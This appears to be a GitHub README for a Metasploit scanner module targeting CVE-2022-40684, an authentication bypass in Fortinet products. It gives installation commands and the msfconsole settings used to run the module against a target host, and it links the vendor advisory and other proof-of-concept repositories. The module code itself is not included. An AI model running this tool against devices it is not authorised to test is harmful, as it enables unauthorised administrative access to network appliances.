

# CVE-2022-40684-metasploit-scanner
An authentication bypass using an alternate path or channel in Fortinet product

# preparation POC
```cmd
git clone https://github.com/TaroballzChen/CVE-2022-40684-metasploit-scanner
cd CVE-2022-40684-metasploit-scanner
mkdir -p ~/.msf4/modules/auxiliary/scanner/http
cp fortinet_product_auth_bypass.py ~/.msf4/modules/auxiliary/scanner/http/
chmod +x ~/.msf4/modules/auxiliary/scanner/http/fortinet_product_auth_bypass.py
msfconsole
```

# POC usage
```text
set rhosts <vuln ip/host>
set rport <vuln port>
set rssl <default: true for https>
set username <default: admin>
exploit
```

# result


# reference
- https://www.fortiguard.com/psirt/FG-IR-22-377
- https://github.com/horizon3ai/CVE-2022-40684
- https://github.com/carlosevieira/CVE-2022-40684
- https://github.com/Chocapikk/CVE-2022-40684